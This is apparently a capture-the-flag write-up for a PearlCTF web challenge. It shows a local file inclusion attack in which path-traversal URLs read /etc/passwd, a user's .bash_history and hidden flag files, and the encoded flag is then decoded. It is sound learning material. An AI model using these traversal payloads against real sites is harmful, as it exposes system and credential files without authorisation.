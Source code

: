 # Challenge description

APD messed up while setting up the system—now files are leaking! Can you help uncover the hidden secrets?

# Soluce

When you arrive and check the home page, there is this hint in comments:
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=home.php

```
Strange how everyone leaves a hint.txt when setting up a new profile... Maybe it's worth a look? 
```

I checked the source code of the other page and found the following comment:
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=info.php
```
 WARNING: Sensitive user credentials are stored in 'passwd'. Do NOT share.
```

I guessed that we can do a Local File Inclusion (LFI) attack by changing the `page` parameter:

http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=../../../../etc/passwd

That displays the content of the `/etc/passwd` file:

```shell
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin _apt:x:42:65534::/nonexistent:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin lfi-user:x:1001:1001::/home/lfi-user:/bin/bash fake-user:x:1002:1002::/home/fake-user:/bin/false
```

So, we can see that there is a user named `lfi-user` and `fake-user`. I tried to access the `lfi-user`'s home directory to find the "hint.txt" file:
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=../../../../home/lfi-user/hint.txt

This displays the following content:
```
The past holds secrets... People often retrace their steps to find what was lost. 
```

So I will try to access a bash history file to find the commands that were executed:
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=../../../../home/lfi-user/.bash_history

This displays the following content:
```shell
cat /var/www/html/page/dev_notes.txt ls /var/www/html/page/ 
```

I tried to access the `dev_notes.txt` file:
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=dev_notes.txt

This displays the following content:
```
The real prize isn’t here... It might be "hidden" in the shadows, just a few steps **behind** where you are looking. Only the curious will uncover the "flag". 
```

So I tried to find a hidden directory by accessing the `/var/www/html/` and `/var/www/` directories. When you put a bad path, the page displays the following message:
```
Warning: include(page/../../../../var/www/flag): Failed to open stream: No such file or directory in /var/www/html/index.php on line 56

Warning: include(): Failed opening 'page/../../../../var/www/flag' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 56
```

Si I tried a lot of paths and finallay:
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=../../../../var/www/hidden/

This displays the following content:
```
Warning: include(/var/www/hidden): Failed to open stream: Success in /var/www/html/index.php on line 56

Warning: include(): Failed opening 'page/../../../../var/www/hidden/' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 56
```

So the flag is in the `/var/www/hidden/` directory. I tried to access the `flag` file:

http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=../../../../var/www/hidden/flag.php

This displays the following content:
```
95GMpVTdMNjbJ9VZMFjZfxGNjBDb7xmchVGc
```

![alt text](media/image.png)

When you look at the screen, the title is inverted and the text is written in reverse.

So with this script:
```python
encoded_string = "95GMpVTdMNjbJ9VZMFjZfxGNjBDb7xmchVGc"
reversed_string = encoded_string[::-1]
print(reversed_string)
```

You get:
```
cGVhcmx7bDBjNGxfZjFMZV9JbjNMdTVpMG59
```

And you can decode it with base64:

The flag is: `pearl{l0c4l_f1Le_In3Lu5i0n}`
